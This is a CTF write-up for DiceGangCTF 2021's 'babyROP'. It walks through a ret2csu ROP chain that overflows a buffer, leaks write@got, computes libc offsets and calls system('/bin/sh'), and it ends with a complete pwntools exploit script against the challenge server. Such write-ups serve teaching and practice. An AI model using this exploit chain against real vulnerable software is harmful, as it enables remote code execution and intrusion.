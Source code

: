 ```yaml
---
title: "babyROP"
date: 2021-10-04
event: DiceGangCTF 2021
points: 121
difficulty: easy
draft: false
tags: ["csu", "ret2csu", "dicegang"]
---
```


This is a basic ROP Challenge that involves a technique called the ret2csu. We use this when there is a lack of gadgets.
<!--more-->

## Challenge Description
![](/images/babyROP_dice/challdesbabyrop.png)

## Solution:

* Checkout the mitigations of the binary
* Try to find gadgets since this is a ROP challenge. If you dont know much about ROP checkout [ROPemporium](https://ropemporium.com/).
* Craft the payload to get flag from server.

## Mitigations:
![bob](/images/babyROP_dice/mitigationdice.png)
* We can't excecute shellcode (NX Enabled)
* No Canary found - no need for brute force or leaks
* PIE disabled - the address of the binary wont be randomised

## Finding Gadgets:

Install ROPgadget to find all the gadgets in the binary.
```bash
ROPgadget --binary babyrop
```
My first thought was to ``write`` the address pointed by the got of ``write``. The idea was to leak the address of write function. Since write has already been called by the program the GOT of write will be populated and the got will point to the libc address of write. The following gadgets are needed. 
```asm
pop rdi
pop rsi 
pop rdx
```
I did not have the pop rdx register which makes the challenge a bit more intresting. So we need to find a way to set the value of RDX, RSI, RDI. 
```asm
rsi - point to the buffer [write@got]
rdi - file discriptor = 1
rdx - size of the buffer = >8
```

Since ropgadget did not give me the gadget I went to look for more gadgets in the `__libc_csu_init`. There I could find all the gadgets I wanted. 

## Crafting Exploit: 

These are the important gadgets I want.

![](/images/babyROP_dice/gadgetsdice.png)

## Idea 

First overflow the buffer with garbage and then make return jump to csu. Things to note.

```asm
0x00000000004011b0 <+64>:	mov    rdx,r14
0x00000000004011b3 <+67>:	mov    rsi,r13
0x00000000004011b6 <+70>:	mov    edi,r12d

0x00000000004011ca <+90>:	pop    rbx
0x00000000004011cb <+91>:	pop    rbp
0x00000000004011cc <+92>:	pop    r12
0x00000000004011ce <+94>:	pop    r13
0x00000000004011d0 <+96>:	pop    r14
0x00000000004011d2 <+98>:	pop    r15
0x00000000004011d4 <+100>:	ret 
```

Now we can control the RDI, RSI, RDX because we can control the r14, r13, r12 registers. Intresting area was the call to `QWORD PTR [r15+rbx*8]` inbetween these gadgets. So we decided to make this `QWORD PTR [r15+rbx*8]` as the write function. In order to do this well set r15 as the address to write@got and rbx as 0. 

```asm
0x00000000004011b9 <+73>:	call   QWORD PTR [r15+rbx*8]
0x00000000004011bd <+77>:	add    rbx,0x1
0x00000000004011c1 <+81>:	cmp    rbp,rbx
0x00000000004011c4 <+84>:	jne    0x4011b0 <__libc_csu_init+64>
```
Hmmm :(. Seems like there is a compare statement that'll make us jump back to the csu+64 (which is somewhere in the middle of csu). Now lets make rbp as 1 so we dont take the jump.

```python
buf = b"a"*72
buf += p64(0x00000000004011ca) #rbx rbp r12 r13 r14 r15
buf += p64(0)+p64(1)+p64(1)+p64(elf.got['write'])+p64(8)+p64(elf.got['write'])
buf += p64(0x00000000004011b0)
buf += p64(0)*7
buf += p64(elf.sym['main'])
```

Exploit for leaking libc write address looks something like this. :) Now lets just recv the leak and see what libc they are using. To find out their libc go to [libc.blukat.me](https://libc.blukat.me/)

![](/images/babyROP_dice/blukatdice.png)

Now its basic math, since all the address in the libc will be at the same offset from one another. Once you get the leak just find address of /bin/sh and system then just call system with /bin/sh as argument. Pretty intresting challenge and fun to solve :).

Anyway here is the exploit script for this challenge.

```python
#!/usr/bin/env python3
from pwn import *

# Set up pwntools for the correct architecture
context.update(arch='i386')
exe = './babyrop'

elf = ELF("./babyrop")

def start(argv=[], *a, **kw):
    if args.GDB:
        return gdb.debug([exe] + argv, gdbscript=gdbscript, *a, **kw)
    else:
        return process([exe] + argv, *a, **kw)

# ./exploit.py GDB
gdbscript = '''
continue
'''.format(**locals())

#===========================================================
#                    EXPLOIT GOES HERE
#===========================================================

p = remote("dicec.tf", 31924)

# shellcode = asm(shellcraft.sh())

'''
0x00000000004011d3 : pop rdi ; ret

write syscall 
rdi = 1
rsi = pointer to puffer (pointer to write function)
rdx = size
'''

p.recvuntil(": ")

buf = b"a"*72
buf += p64(0x00000000004011ca) #rbx rbp r12 r13 r14 r15
buf += p64(0)+p64(1)+p64(1)+p64(elf.got['write'])+p64(8)+p64(elf.got['write'])
buf += p64(0x00000000004011b0) 
buf += p64(0)*7
buf += p64(elf.sym['main'])
p.sendline(buf)

# log.info("write leak: {}".format((hex(u64(p.recv(8))))))

leak = int(hex(u64(p.recv(8))), 16)
log.info("Write leak: {}".format(hex(leak)))

sys = leak-0xbbdc0

binsh = leak+0xa63da

buf = b"a"*72
buf += p64(0x40116b) #ret
buf += p64(0x00000000004011d3) #pop rdi 
buf += p64(binsh)
buf += p64(sys)

p.sendline(buf)

p.interactive()


```